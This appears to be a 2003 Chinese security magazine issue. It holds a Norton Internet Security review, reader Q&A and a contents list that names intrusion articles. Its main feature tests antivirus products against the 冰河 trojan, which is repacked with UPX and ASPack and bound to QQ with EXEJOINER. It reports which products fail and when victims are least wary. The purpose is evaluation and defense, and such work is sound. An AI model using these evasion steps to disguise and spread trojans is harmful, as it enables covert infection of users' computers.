入侵检测和防火墙一样，需要制定攻击特征库，其中有很多特征是默认的。当然，您在特征选项中可以排除一些需要监控的特征，也可以停止监控来自特定计算机（譬如，我们的攻击测试机器或者信任的计算机）的通信。同时，我们还可以通过启用自动禁止功能来对那些企图对我们机器进行攻击的计算机进行一段时间的访问禁止，这样，可以有效地减少机器被攻破的可能性。

### 3. 隐私控制

在我们的电脑中，有很多个人信息是需要保密的，譬如，信用卡账号、E-mail、QQ 密码、家庭地址、社会保障号等。诺顿网络安全特警对这些个人的隐私进行了有效的保护（图5）。通过个人信息配置栏，我们可以在其中输入自己需要的信息。这样，当有程序对这些信息对外发送时，安全特警会立刻弹出警告窗口，让用户动作选择。这样，我们就不用担心自己的密码被盗、隐私被泄露了。

另外，我们可以通过设置隐私控制级别，以满足不同环境的需求。这里，还可以选择是否启动浏览器隐私保护和安全连接（https）。

### 4. 垃圾邮件报警

几乎没有一个使用电子邮箱的人没有收到过垃圾邮件的经历。这让每个网络邮件使用者深恶痛绝。垃圾邮件不仅仅为兜售信息邮件，还包括任何未经请求而自动发出的邮件。与正常的邮件列表不同的是，它没有可回复的地址，没有设定地址。它们使 E-mail 用户的邮箱空间被废物迅速填满。但是对于垃圾邮件来说，它们有一些固有的特征。既然如此，我们就可以利用这些特征来判断一封邮件是否属于垃圾邮件。

诺顿网络安全特警使用模式匹配引擎，自动将每封 E-mail 内容与已知垃圾邮件列表进行对照，如果发现包含垃圾邮件特征超过一定限制，则认定其为垃圾邮件。而这个限制阈值则由用户通过调节垃圾邮件警报来控制。另外，安全特警还可以为不同的用户配置不同的垃圾警报，用户也可以自定义垃圾警报。在被认定为垃圾邮件以后，安全特警会自动在该邮件的主题起始处添加“垃圾邮件警报”字样，这样，配合电子邮件程序（譬如 Outlook）就可以有效地过滤掉这些垃圾邮件。

### 5. 禁止广告

网页中存在太多广告也是非常令人讨厌的事情，其实每个广告都是有其特征代码的，譬如 ads，这样，我们可以在特征中添加这些特征字，当以后在网页中碰到这类关键字的时候，便禁止对其进行显示。另外，对于某些特定网页内的广告，它具有固定的 URL，这样，我们通过禁止广告的 URL，一样可以达到禁止广告的目的。诺顿网络安全特警给了我们一个方便的界面，我们只需将广告栏拖到配置界面，便可以自动对其进行禁止。

还有一类弹出性广告，就是当打开一个页面的时候，自动地弹出几个广告窗口。这类广告无非是在网页中加入了一条 JavaScript 语句。我们只需要对该语句进行屏蔽就可以解决这类广告的问题。

### 6. 父母控制

父母控制根据主题对网络进行分类，根据文本字符串对新闻组进行分类，根据类型对 Internet 程序进行分类。用户控制设置被链接到用户帐户。用户登录到其账户时，诺顿网络安全特警将使用与该账户相关联的设置，直到用户注销为止。

“超级用户”和“成年人”用户可以启用或禁用父母控制；“成年人”用户可以更改其账户的父母控制设置；“超级用户”可以对任何用户的父母控制设置进行更改；“青少年”和“儿童”用户无法对“父母控制”进行任何更改。父母控制的默认设置可以为大多数用户提供全面的防护，用户也可以根据自己的需求对父母控制的各项进行专门设置。这里不再详细叙述。

### 7. 防病毒软件

病毒一直是网络安全的一大隐患，下面具体介绍一下反病毒技术。杀毒软件要想杀毒，首先必须查毒。下面着重介绍几种主要的查病毒方法：

- 1. 特征值查毒法

特征值查毒法是最先使用，并且最行之有效的一种查毒方法。对于每个病毒来说，它总存在与其他程序不同的字段，如果可以事先提取出这些字段，我们就可以用这些字段作为查找该种病毒的有效依据。这种查毒方法依赖于查毒软件的搜索引擎和病毒库，由于病毒不断出现，因此采用这种方法就必须不断地更新病毒库才能满足实际需要。

- 2. 启发式扫描技术

我们由上可知，特征值查毒法只能应付那些已知病毒特征值的病毒，对于那些未知病毒没有任何办法。启发式扫描技术是专门用来对付未知病毒的。由于病毒本身的特殊性，它具有一般程序所不具备的行为或代码特征（譬如，传染、格式化硬盘、修改文件时间和大小等）。既然如此，我们建立一个特征库，在扫描一个文件时如果发现其满足特征库中比较多的特征，那么我们就认定其为一个未知病毒。

#### （3）虚拟机技术

虚拟机技术是专门用来对付加密病毒的，由于一些采用了病毒多态、变形技术，传统的特征值查毒法和启发式扫描无能为力，而虚拟机技术却很好地解决了这一问题。所谓虚拟机，就是用软件虚拟的一套软硬件环境，由于所有的加密病毒都需要解密才能运行，这样，我们让病毒先在虚拟机中解密，然后结合以上两种技术，这样就可以有效地对付各种加密病毒了。

诺顿网络安全特警有效地结合了这3种查毒方法，病毒库自动更新周期短。在安装 Symantec Internet Security 时，系统会强制性安装 Norton AntiVirus 防病毒软件（图6），毕竟防病毒是做好安全的根本。Norton AntiVirus 采用如下几种工作方式：

- 1. **病毒定义服务阻挡已知病毒**

对于已知病毒，可以通过特征值查毒法进行查毒，这样病毒定义变得尤为重要。Norton 更新病毒库周期很短，并且是系统自动更新，完全不需要用户的干预。对于不能上国际网的用户，也可以通过手动下载病毒库进行更新。

- 2. **BloodHound 技术阻挡未知病毒**

BloodHound 技术就是启发式扫描技术，它通过分析文件的结构、特征和编程逻辑等其他属性、计算机指令和文件中所包含的所有数据来检测病毒，它还建立模拟环境，在其中调入文档并测试宏病毒。

- 3. **禁止脚本功能阻挡基于脚本的病毒**

禁止脚本功能检测基于 VBS 和 JS 的所有脚本，当具有病毒特征的脚本代码执行时，发出警报。这种方式并不需要特定的病毒定义，在某种程度上可以有效防范未知脚本病毒。

- 4. **禁止蠕虫功能杜绝蠕虫的传播**

禁止蠕虫功能会检测所有发送的电子邮件，如果从中发现蠕虫，就会禁止该蠕虫运行，并作适当的操作，譬如将其放入隔离区中，以避免蠕虫进一步传播。

- 5. **自动防护保护您的安全**

实时监测功能是作为一款有效防病毒软件必不可少的。Norton AntiVirus 会在机器启动时加载到内存，并且对整个系统提供实时的防护。

- 杀除病毒、蠕虫和特洛伊木马程序，包括宏病毒，并修复损坏的文件。
- 在您每次试用计算机中的程序、插入软盘或其他可移动介质，或使用收到的或创建的文档文件时都进行病毒检查。
- 监视您计算机中可能表明有活动病毒存在的任何反常情况。
- 保护您的计算机免受来自因特网的病毒的侵袭。

## 三、小结

可见，诺顿网络安全特警这一款软件有效地解决了用户在上网安全各方面所遇到的问题。无论从其公司的实力还是这款软件所使用的安全框架和技术来说，对用户都是个非常不错的选择。

**后记：** 目前，网络安全产品很多，但是能够像上面所介绍的这款“诺顿网络安全特警”这样提供如此全面安全服务的，毕竟是少数。尽管国内有些安全产品声称某些技术国际领先，但实际上名不副实，中国的安全产业还有很长一段路要走，我们只有首先正视差距，才能够迎头赶上。

# 编读互动

一段时间来，非典型肺炎流传广泛，广州、成都、北京、上海等地相继出现。提醒我们广大的读者朋友们，一定要提前做好预防措施。

本月中，微软的 BUG 出了不少，竟然与流传广泛的非典型肺炎患比高低。首先在 packetstormsecurity.org 公开了 rpcexp、c、regexploit.c 等攻击代码，然后 WEBdav 的各种攻击代码脚本也相继公开。另外一个 Locator 服务的攻击代码也跟着出来了，也许还有一些未公开的……相应的补丁都收集在本期光盘中，提醒各位广大网管朋友，及时给服务器上补丁。

**问：** 请问，我在安装了网络防火墙后，是不是就没有必要在安装反病毒软件了？

**Bright：** 在回答这个问题前，我们首先要明确，网络防火墙主要功能是防止黑客非法连入你的计算机，防止木马非法加载或发送信息。反病毒软件主要是杀灭本地病毒、木马的。两者具有不同的功能，不能混为一谈。而且，一般的网络防火墙带有的杀毒功能并不强大，因此建议，为了更好的做好安全措施，在安装专门的反病毒软件的同时安装网络防火墙，让它们各自实现自己的任务。

**问：** 在防火墙内边有一个配置规则，如何配置他们才能保障安全？

**Bright：** 一般来讲，安全总是相对的，每个人对安全的要求不一样，每台主机的安全需求也不一样。因此，在实际工作中，我们要根据个人需要而定。有些主机要求绝对安全，那么就必须自己设置许多规则，像新发现的漏洞、木马、病毒等，都要加入规则，但这就需要有一定专业知识，特别是网络协议知识！而对于一般用户来说，就没有必要设置太多的规则，一些防火墙的默认配置也可以保障基本安全，主要是利用防火墙来防范常见电子炸弹、常见木马、ping 等。

**请问：** 在企业网络中，如何更好的实现安全呢？前提是不要很大的投资！

**Bright：** 要建造一个安全的企业网，首先要保证企业网边界的安全，可以说，企业网的边界是企业网络安全的第一道防线。一个典型的企业网，其网络边界主要包含 3 大组成部分，即因特网接入模块、内联网 VPN 和远程接入模块以及外联网 VPN 接入模块。大多数的企业网都注意到了因特网接入模块的安全问题，并且大都采取了相应的有效措施，保证了因特网接入模块的网络性。而且目前 VPN 的商业优势非常吸引人，许多公司都开始制订自身的战略，要利用 Internet 作为主要的传播媒介，采用 VPN 技术进行互通。

VPN 和远程接入模块，以及外联网 VPN 接入模块的网络安全问题成为企业关注的重点。

**问：** 经常听说“DNS”欺骗，请问“DNS”欺骗到底是什么意思？

**Bright：** 所谓 DNS，就是域名服务器，域名服务器用于把域名翻译成电脑能识别的 IP 地址。例如，如果有人要访问“黑客防线”的网站（www.hacker.com.cn），DNS 就把域名译为 IP 地址 61.135.129.181，这样就便于电脑查找域名所有人的网站服务器。实际上每一个网站都有他自己的 IP 地址的；但是 IP 地址不好记忆，所以用 DNS。DNS 欺骗就是将一个 DNS 所对应的合法 IP 转向另一个非法 IP，让用户以为该网被黑、输入网址错误。在该文中说的“DNS 欺骗”其实是带有 Web 欺骗性质的。所谓 Web 欺骗，就是网页内容与另外一个网页完全一样，让人误解为进入了那个网站。

**请问：** 我们公司网关是 Windows 2000+SP3 的 DNS 服务器，但最近遭到黑客攻击。后经检测发现：在 DNS 服务器上已经有端口映射工具指定在几台开发人员的机器上，并且都有后门端口在监听。但服务器日志都被删除，请问怎么办？DNS 服务器开放的端口有 21、53、135、139、443、445、1027 等。

**Bright：** 从以上情况看来，很有可能是黑客利用最近微软新的漏洞 MS Locator!formQueryPacket.wcscpy。请先安装好补丁程序：

http://download.microsoft.com/download/1/d/9/1d94e705-151f-40dc-9cdb-0953d03b5e37/Q810833_W2K_SP4_X86_CN.exe。

然后，在 DNS 服务器上安装防火墙，并且设置安全策略，设置每台 Client 机器信任关系。

对于 DNS Server：删除端口映射程序，可以向安全公司咨询安全加固。

对于 Client：安装最新补丁，进行安全配置。

关于日志问题：即使没有了系统日志，从防火墙（如果有）或者路由、IDS 上获取日志信息。

## 何去何从

5年前，随便问一个美国人，Google为何物，恐怕很少有人能说清楚。而今天，全美国使用因特网的人几乎都知道它：销售人员用其查询商业信息；家庭主妇把它当购物指南；大学生借助其准备论文……Google已经成为许多人生活工作中不可缺少的查询工具。

Google原名Googol，意思是10的100次方，是个巨大的数字。Google的胃口如同它的名字，大得出奇。编入其索引的有30多亿个页面，4亿幅图片和8亿个新闻公告。其搜索引擎每天可以答复1.5亿次查询。

像大多数硅谷公司的白手起家史一样，Google诞生于一所小房子中。1995年，正在斯坦福大学念计算机博士学位的赛尔盖·布林和拉里·佩奇，开始着手研究、改造搜索引擎技术。1999年，两家颇具实力的风险投资公司注入2500万美元，使Google站稳了脚跟。在别的网络公司为了获利什么都涉猎时，Google一直潜心于搜索引擎的开发改进，很快在这一领域脱颖而出。2000年，Google与Yahoo签约，为其提供额外搜索服务，使自己声望大增。去年美国在线（AOL）也成为Google的客户。Google以其巨大的覆盖范围、强劲的搜索功能以及准确的查询结果成为全美乃至全世界的搜索引擎之王。

没有做过一次电视广告，没有粘贴过一张海报，没有做过任何网络广告链接，完全依靠网民的“口碑”，价值20亿美元的品牌树立起来了——这就是网络搜索引擎巨头Google！

但Google如今却面临着来自方方面面的压力。首先是各大网络公司对Google的防备心理在日益加强。他们害怕Google成长起来后，最终动抢掉了自己的饭碗。其次是在企业搜索引擎业务上，Verity公司正大力与Google抢占市场。常言说得好：“木秀于林，风必摧之。”用这句话来形容Google目前的处境恐怕再恰当不过了——2003年将是Google需要努力面对的一年。

目前以Google为代表的搜索引擎，以“超链”为基础的搜索引擎技术并非十全十美，像信息的滞后性问题就是非常严重的。随着Internet的强势发展，网上庞大的数字化信息和人们获取所需信息能力之间的矛盾日益突出。那么，如何解决这些难题就成为搜索引擎探索的方向。一个好的搜索引擎不仅仅凭借数据库大小、更新频率、检索速度、对多语言的支持这几个基本特性来衡量，随着数据库容量的不断膨胀，如何从庞大的资料库中精确地找到正确的资料，被公认为是下一代搜索技术的竞争要点。

包括Google的佩杰在内的搜索技术领域的领先者都认为，最终的搜索引擎将是智能化的，能够理解世界上的所有事物。现在的主流搜索技术把注意力集中在提升自身搜索引擎质量、扩展应用范围，比如支持图片检索、PDA等移动手持设备的检索，这些都将成为下一代技术实现过程中必不可少的步骤。那么，在未来的搜索引擎激战中，Google是否还能够保持住如日中天的地位，保持住全球第一品牌的形象，还要靠不懈的努力！

# 特别专题

# 三款流行杀毒软件对“变形”木马的测试

随着大家安全意识的提高，许多人都安装了杀毒软件并及时升级病毒库，每次安装、运行新软件前都使用杀毒软件进行检查，可以说这是一个非常好的习惯。但是，凡事都有个“度”，超过了这个“度”就不好了，在对待杀毒软件也如此。如果盲目相信杀毒软件，以为只要杀毒软件报告没有发现病毒就以为绝对万事大吉了，甚至于对下载下来的软件大小明显不对劲也不怀疑，更不管运行下载下来的软件出现的提示信息是否正确，因为杀毒软件报告无毒嘛！古语说的好：尽信书不如无书，在对待杀毒软件的态度上也应如此。如果不相信，可以和本文作者一起来对三款流行的杀毒软件做个小测试，看其对“变形”木马的反应能力，之后就会有答案了。

# 经验交流

- **RTF玩转QQ记实安全篇** ............ 9

前一段时间网络中闹得沸沸扬扬的QQ非法操作，使得很多网友深受其害。攻击者只是发送一些RTF代码，就使得对方的QQ出现非法操作。这一期的黑客防线我们就RTF起因谈起，讲讲为什么QQ会出现此类问题。

- **QQ最新技巧八则** ................. 11

QQ是我们最熟悉的聊天工具，针对QQ的工具有很多，但是基本都是有软件作者开发，读者仅仅是下载使用而已，没有新鲜感，那么我们有没有试过自己动手做一个QQ工具呢？或者自己动手让自己的QQ与众不同呢？如果有兴趣，就和我一起开始打造有自己个性的QQ！

- **找回被盗的QQ号** ................. 16

- **克隆账号也疯狂** ................. 18

古语云：打江山容易，守江山难。如何让肉鸡永远敞开大门，就成了所有菜鸟黑客们的必修课程。如果您不了解这方面的技术，那么不妨看一下此文。

- **一次利用FrontPage扩展默认权限错误漏洞获取系统最高权限** ................. 20

“FrontPage扩展默认权限错误漏洞”是一个很老的漏洞，但是现在很多管理员不太注意，最后导致被入侵者利用，因此，我们在维护主机安全时，一定不能够大意，任何一点小小的失误都可能导致主机不安全。

- **过滤字符不全的安全隐患** ............. 22

- **种木马时要小心些了——别偷鸡不成反蚀把米** ............. 23

- **轻松玩转个人动态域名** ............. 26

现在越来越多的朋友用上了宽带，可是用上宽带后和宽带前利用网络的性质还是一样的。浏览网页、聊聊QQ、玩在线游戏等，虽然速度比拨号快多了，可老觉得还是有点对不起那多出很多的带宽。此时，你有没有想过建个自己的网络服务器呢？让朋友来浏览自己电脑上建的网站，上传和下载文件。有些读者或许会问：建网站不是要Web服务器吗？上传和下载文件不是要FTP服务器吗？听说只有Windows 2000 Server才有这种功能，我的是Windows 98操作系统能行吗？还有，我们每次宽带拨号上网IP都不一样呀，没有固定IP别人怎么访问我呢？

- **巧妙隐藏秘密又三法** ............... 28

- **有感《让流光在IE工具栏中“高就”》** . 32

- **如何防止他人使用你的光驱** ........... 33

- **自己制作计算机之间的短信** ........... 34

手机短信已经成为当今的流行时尚，但怎样在计算机之间体验短信的方便与快捷呢？其实我们利用Windows 2000提供的信使服务就可以自制一个短信发送程序，令笔者最为得意的是它几乎可以穿越各种网络防火墙，不受限制。

- **两类不同电脑密码的处理方法** ........ 35

- **在线查看网站之多少** ............... 36

- **快速得到动网论坛管理员密码** ........ 37

就能得到一大堆。要想控制整个论坛就得有管理员密码，那么怎样才能得到动网论坛的管理员密码呢？

- **三款广外木马的手工清除方法** ............ 40

广外木马特指广外程序员网络(前广外女生网络小组)编制的木马，主要有广外男生、广外女生和广外魅灵这三款。由于这三款木马都比较隐蔽，在技术上也有其先进的地方，因此导致对它们的查杀非常的不容易，中了这三款木马的用户也因此更多。

- **对Windows XP 在LAN中不能发送邮件的处理** ............ 42

在局域网中，电子邮件被人们经常使用，但由于局域网自身的系统平台、组网方式、拓扑结构等因素的影响，可导致数据传输故障，使电子邮件及其附件无法正常发送。

- **黑兵器**
- **字典工具也疯狂** ............ 43

字典是黑客进行入侵的必备品，好的字典有助于减少入侵所用时间，常常是入侵成功的关键，那么如何得到一个好的字典呢？通常我们会使用字典工具生成一个字典，所以说应选择一款好的字典工具非常重要。下文将对几款字典工具进行比较，供大家参考。

- **图解代理服务器软件——CCProxy** ............ 46

现在一说起“共享Internet”，几乎所有人都会说用WinGate或Sygate。不可否认，WinGate、Sygate的功能相当强大，但它们都是共享软件，一过试用期就不能用了，不适合长期使用。所以，我看就完全有必要向您推荐这款代理软件——CCProxy了。

- **Microsoft Baseline Security Analyzer 试用手记** ............ 50

- **菜鸟也谈隐藏IP** ............ 51

- **e生活e事**
- **水果的味道** ............ 52

- **网吧攻略**
- **网吧中十二种常见限制的解决办法** ............ 54

- **网吧管理新秀——计算机限制** ............ 58

各位网吧管理员在用惯了美萍、万象以后是否想过要换一款网吧管理软件呢？毕竟，美萍、万象大家虽熟悉不过了，破解的方法随处可见。那么，下文作者一米向各位管理员推荐一款优秀的网吧管理软件——计算机限制。

- **网吧破解的两个小技巧** ............ 60

- **密界寻踪**
- **全面解决反弹端口木马灰鸽子** ............ 61
- **突破独载者DDoS攻击器只能添加10台主机的限制** ............ 68
- **超级密码破解利器 LC4 解密过程** ............ 72

- **用WKTVBdebugger来注册P-Code保护的程序** ............ 74

P-Code是微软公司的VB编译器的相对于Native编译方式（本地机器代码编译方式）的另一种编译方式，实际上是一种压缩编码的方式，P-Code的基本工作原理是编译器先把执行程序编译为比80X86机器码紧凑得多的中间代码形式，然后在链接时把一个小工作引擎嵌入执行程序中，最后在运行时由此工作引擎把P-Code解释为本地机器码实际执行。其主要目的也就是为了能减少程序的尺寸。如果你的程序是个大型程序的话，你会发现使用P-Code会比Native型减少大概40%左右的空间占有量。正因为如此，在破解P-Code程序时给Cracker带来一定的难度，那么，有没有相对简单的方法进行破解呢？

- **敏思硬盘破解扩展** ............ 76

- **编读互动**

随着大家安全意识的提高，许多人都安装了杀毒软件并及时升级病毒库，每次安装、运行新软件前都使用杀毒软件进行检查，可以说这是一个非常好的习惯。但是，凡事都有个“度”，超过了这个“度”就不好了，在对待杀毒软件也如此，如果盲目相信杀毒软件，以为只要杀毒软件报告没有发现病毒就以为绝对万事大吉了，甚至于对下载下来的软件大小明显不对劲也不怀疑，更不管运行下载下来的软件出现的提示信息是否正确，因为杀毒软件报告无毒嘛！古语说的好：尽信书不如无书，在对待杀毒软件的态度上也应如此。如果不相信，可以和本文作者一起来对三款流行的杀毒软件做个小小测试，看其对“变形”木马的反应能力，之后就会有答案了。

# 三款流行杀毒软件对“变形”木马的测试

文／飞鸟 阿剑

## 一、用木马冰河进行测试

测试前的准备：我们的测试软件之一是木马冰河 V2.2[DARKSUN 专版]，该木马由两部分组成：服务端程序 G_Server.exe，客户端程序 G_Client.exe，将服务端程序 G_Server.exe 解压缩到 D:\Test 目录下备用。另外要准备的工具有 UPX 和 ASPack 以及三款国内最有名的杀毒软件：瑞星杀毒软件 2003，金山毒霸 2003，KV 江民杀毒王 2003。

UPX 简介：UPX 是款压缩／解压缩软件，自身具备压缩、解压缩功能，大名鼎鼎的流光 4.7 就是用它压缩的。使用该软件的目的是：由于冰河服务端程序被 UPX 压缩过，用 UPX 可以解压缩，还软件本来的面目，然后我们就可以用杀毒软件检测这个还原后的冰河了。用 UPX 给软件解压缩的方法为：把待解压的软件和 upx.exe 放在同一目录下，进入该目录，然后在 MS-DOS 窗口中键入“upx -d 目标软件.exe”即可。

ASPack 简介：ASPack 可压缩 Windows 32Bit EXE 文件与 DLL 文件，用 ASPack 压缩可执行文件一般可压到原来文件大小的 50% 左右，ASPack 没有解压缩功能，即无法用 ASPack 来给用 ASPack 压缩过的软件解压。你可以使用 Aspackdie、CASPR 等软件解压缩 ASPack 压缩过的软件，当然使用 TRW2000、SoftICE 等软件手动解压（脱壳）也可以。使用该软件的目的是用它来压缩解压后的冰河服务端程序，这样我们就有了一个“变形”木马，看杀毒软件是否可以识别出来。

瑞星杀毒软件 2003、金山毒霸 2003 和 KV 江民杀毒王 2003 这三款软件大家都很熟悉了，分别是各自公司目前的最新产品，技术都比较先进，这里就不多介绍了。要说明的是测试时我们已经将软件升级到了最新版本。

我们的目的是：通过对木马冰河服务端程序在解压前和解压后的变化，来检测杀毒软件对病毒（木马）的反应能力。也就是说我们测试的是“变形”木马。目前的病毒或木马都非常狡猾，经常使用 UPX 或 ASPack 等软件压缩，压缩后就等于给它们加了一层保护壳（经过加壳的软件用 16 进制文件编辑器已经无法看到其真实的十六进制代码），这就给杀毒软件判断病毒带来了一定的困难，因为我们大家都知道，目前的杀毒软件，主要还是基于特征代码检测技术的。所以，这项测试对杀毒软件来说是一个考验。反过来讲，这样的考验又很接近实战——一位高手在给别人下木马前，一定会给木马“乔装打扮”一下，用UPX或ASPack压缩就是其中的手段之一。

具体过程：首先用杀毒软件检查未脱壳前的冰河，看对流行木马的检测能力如何。然后将冰河服务端程序用UPX解压，再用杀毒软件将冰河服务端程序进行检测，看解压后的木马杀毒软件是否能识别出来。最后，将解压后的木马冰河服务端程序再用ASPack来压缩，然后再次用杀毒软件检测，看是否可以识别。下面我们正式开始。

##### 1. 对瑞星杀毒软件2003的测试

首先我们拿瑞星来做个小测试，我们要检查的软件是著名的木马冰河2.2版的服务端程序G_Server.exe。用瑞星2003进行检查，瑞星提示发现病毒。由于木马冰河2.2版的服务端程序G_Server.exe用UPX压缩过，原文件大小266K，我们用upx -d G_Server.exe命令给冰河服务端程序解压缩，为测试方便，我们将解压后的G_Server.exe命名为G_Server1.exe，软件大小变为677K，再用瑞星2003进行检查，瑞星还会提示发现病毒。不过，如果我们用另外一款著名的压缩软件ASPack对解压后的G_Server1.exe进行压缩（图1），压缩后文件大小260K，我们将之命名为G_Server2.exe。

再用瑞星进行检查，结果就不一样了，瑞星2003会报告没有发现病毒，如图2所示。

怎么样？是不是很吃惊呢？这可是截至到目前最新版本的瑞星啊！也许你要问为什么不用诺顿等国外的杀毒软件，劝您还是不要试了，对于冰河这样的国产木马诺顿绝对不可能查出来！不信你试试看！

##### 2. 对金山毒霸2003的测试

现在，我们再来测试一下金山毒霸2003，仍用上面的例子来说。用金山毒霸2003的“全面杀毒”功能来检查未动过手脚的冰河服务端程序G_Server.exe，会提示发现黑客程序。再试试用UPX给G_Server.exe文件解压缩，再用金山毒霸2003进行检查，还会报告发现黑客程序，看来表现还不错！最后，用ASPack对解压后的G_Server.exe文件进行压缩得到G_Server2.exe，之后再用金山毒霸对压缩后的文件进行检查，结果和瑞星杀毒软件2003一样不容乐观，金山毒霸2003同样提示没有发现病毒（图3）！

顺便说一下，用金山毒霸2002进行测试的结果和上面完全一样！

##### 3. 对KV江民杀毒王2003的测试

继续我们的测试，这回该KV江民杀毒王2003“上阵”了。在安装KV江民杀毒王2003之后，打开任意一个文件夹，你会发现在地址栏旁边有几个按钮（图4）。这是KV江民杀毒王2003与系统高度结合的一个表现。要想查杀病毒，只要点击这些按钮即可，非常方便。进入测试目录 Test，点击“查毒”按钮，很快 KV 江民杀毒王 2003 报告发现病毒。用同样的方法检查解压后的 G_Server1.exe 文件，KV 江民杀毒王 2003 也会报告发现病毒。这说明在流行木马查杀方面，以上三款杀毒软件做得都很出色！最后，让我们用 ASPack 压缩 G_Server1.exe 文件，压缩后的文件为 G_Server2.exe，再用 KV 江民杀毒王 2003 进行检测，终于可以松一口气了！KV 江民杀毒王 2003 可以查出有问题存在（图5）！否则我们普通用户还真没有办法对付这些改造过的木马了。不过，有意思的是，KV 江民杀毒王 2003 并没有像 G_Server.exe 那样将 G_Server2.exe 识别为 Hack/Darksun，而是识别为 Hack/G_door.b。

**结论：** 以上三款杀毒软件对未动过“手脚”的木马冰河检测能力完全一样，对用 UPX 解压后的木马冰河查杀能力也相同，但是瑞星 2003 和金山毒霸 2003 对于用 ASPack 压缩后的木马程序无法识别出来，这说明基于特征码的病毒检测技术在 ASPack 面前完全败下阵来。而 KV 江民杀毒王 2003 稍微好些，但它的查毒速度较之前两者慢些。要说明的是，这样的测试并不能说明以上三款杀毒软件哪个好或者哪个不好，因为我们这里仅仅就冰河这款大家都很熟悉的木马进行测试，对于其他木马的识别能力未做实验，所以不能轻易下结论。

## 二、用 EXE 文件捆绑机进行测试

下面我们用 EXE 文件捆绑机对上述三款杀毒软件进行一个简单的小测试。网上流行的 EXE 文件捆绑机有很多，EXEJOINER.exe 和 BindFile.exe 就是其中之一，在本文中我们就用它们来做测试。这类小程序可以将指定的黑客程序捆绑到任何一个广为传播的热门软件上，当宿主程序（热门软件）执行时，寄生程序（黑客程序）也在后台被执行。当您再次上网时，您已经在不知不觉中被控制住了。而我们要用来做测试的 EXEJOINER 更是支持多重捆绑（实际上是通过多次分割文件，多次从父进程中调用子进程来实现的），而且可以给捆绑后的文件换上你指定的图标，这样就更隐藏更难被人发现。它几乎没有任何特殊的表现现象可被人发现，而它的危害则非常大：NetSpy、冰河等木马常通过这种形式在 Internet 上寄生传播。如果有一天您收到一个不相识的人发来的不错的程序，请仔细检查一下，因为没准它是用 EXEJOINER 捆绑了木马程序！EXEJOINER 和 BindFile 下载地址：http://www.ttian.net/。

**说明：** 用捆绑机将木马或病毒和宿主程序捆绑在一起，是当前的木马或病毒常用的一招，这样捆绑后的木马较之前的木马程序也有个“变形”，杀毒软件对此识别能力的好坏非常重要。在木马或病毒被捆绑发送愈发严重的今天，我们迫切希望杀毒软件能有双“火眼金睛”，替我们普通用户揪出那些“幕后的”木马和病毒。

**具体过程：** 分别用 EXEJOINER 和 BindFile 将冰河服务端程序和 QQ 主文件捆绑在一起，然后用上述杀毒软件进行检查，看是否能有所发现以及查得是否彻底。

现在开始我们的测试。首先运行 EXEJOINER，在“First file:”栏中加入随便一个 EXE 文件，在本文中我用的是大家常用的即时聊天软件 QQ，虽然这样文件的体积很大，不利于隐藏，但本文只是用来做测试，而非用来害人。然后在“Second file:”栏中加入木马冰河 2.2 服务端程序 G_Server.exe 文件。在“Icon”栏中为捆绑后的文件选定一个图标，如果你愿意的话可以用 QQ 的小企鹅图标（可以用图标提取软件来提取），我们这里没有改变捆绑后的图标，用 EXEJOINER 默认生成的图标。点击“JOIN THEM”按钮（图6），选择保存地址和输入文件名，就可以将冰河和 QQ 捆绑在一起，在这里我

## 三、后果

如果万一有人把木马程序和热门软件捆绑起来，然后用UPX或ASPack压缩后发送给别人，若收件人又是使用金山毒霸或瑞星来检查是否有病毒或黑客程序，那么他一定会上当受骗，因为杀毒软件根本就查不出这样做过手脚的木马程序存在。如果像本文中实验中那样，将木马和热门软件QQ等捆绑在一起，然后放在网上供人下载，那威胁就更大了。特别是随着愚人节、五一劳动节的临近，网民们会互相发送开玩笑或相互祝福的Flash文件，如果将EXE格式的Flash文件和木马程序捆绑在一起，在这个万人欢腾举国同庆的时候发送给别人（经验证明此时的人们警惕性非常低），那么使人中招的可能就更大了！

## 四、问题分析

杀毒软件之所以无法查出压缩后的文件含有黑客程序或病毒，是因为使用UPX或ASPack对目标软件进行压缩后，等于给软件加了一层“壳”，加“壳”的结果改变了软件的内部代码，而杀毒软件对已知病毒的检测，大多是用事先定义好的病毒特征码或文件大小来进行比对分析，这样就使得杀毒软件变成了聋子的耳朵——摆设。那么什么是“壳”，或者说“壳”是怎样产生的呢？“壳”是一段专门负责保护软件不被非法修改或反编译的程序。它们一般都是先于程序运行，拿到控制权，然后完成它们保护软件的任务。经过加壳的软件在跟踪时已无法看到其真实的代码，因此可以起到保护软件的目的。

用UPX和ASPack对目标软件进行压缩，就等于给目标软件进行加壳，其实质就是给可执行文件加上个外衣。用户执行的只是这个外壳程序，也就是当你执行这个程序的时候这个壳就会把原来的程序在内存中解开，解开后的工作就交给真正的程序了。所以，这些工作只是在内存中运行，而我们是无法知道程序具体是怎么样在内存中运行的。事实上，许多共享软件就是采用加壳的方法来防止被跟踪，防止程序算法被别人静态分析。这样说来，用UPX和ASPack对黑客软件进行压缩后，就好比使用了“易容术”，使得杀毒软件不认识它了。现在，你应该知道杀毒软件为什么无法发现捆绑后被压缩的黑客程序了吧？

## 五、防御建议

既然简单的对木马进行修改就可以骗过杀病毒软件，那么我们就不能尽信杀毒软件。当然，不要执行来历不明的软件，不要从不可靠的小站点上下载软件，任何新下载的程序在首次运行前，都要用最新的杀毒软件和查杀木马软件检查后才能使用……以上这些常规的防范措施还是很必要的，但关键是不能完全相信杀毒软件，至少从观念上要有所改变，尽信书不如无书就是这个道理。如果可能的话，最好能知道一些常用软件的文件大小，一旦发现文件大小有变化尤其是有明显增大表现，这时就该请出我们的杀毒软件和查杀木马软件了。

写在最后：目前，反病毒软件市场竞争十分激烈，各大反病毒软件公司都对自己的产品进行了升级，在附加功能增强、增多的同时，杀毒速度也大为提高，这正是广大用户愿意看到的，这也是杀毒软件的卖点之一。但即便是最新版的杀毒软件，在做上述测试时的表现也不够好。而一款反病毒软件对压缩文件检测能力的强弱和支持压缩文件格式的多少，正是考察其能力强弱的一个重要依据，这也是我们选购反病毒软件的一个重要依据。同时，随着Internet和分布式计算的日益普及，使数据交换摆脱了传统物理介质（如软盘等）的束缚。一般从Internet下载的共享软件都是压缩文件包，Internet——特别是在Internet上传输的压缩文件所携带的病毒或黑客程序，正在对我们的计算机系统构成严重的威胁，压缩文件已逐渐成为了计算机病毒传播的温床，而捆绑文件也成为黑客常用手段之一。因此反病毒软件检测压缩文件以及捆绑文件的能力强弱至关重要！建议反病毒厂商能将产品与操作系统进行更紧密地结合，增强其检测压缩文件和捆绑文件的能力，采取更有效的手段，只有这样我们普通用户的安全才能有所保证！

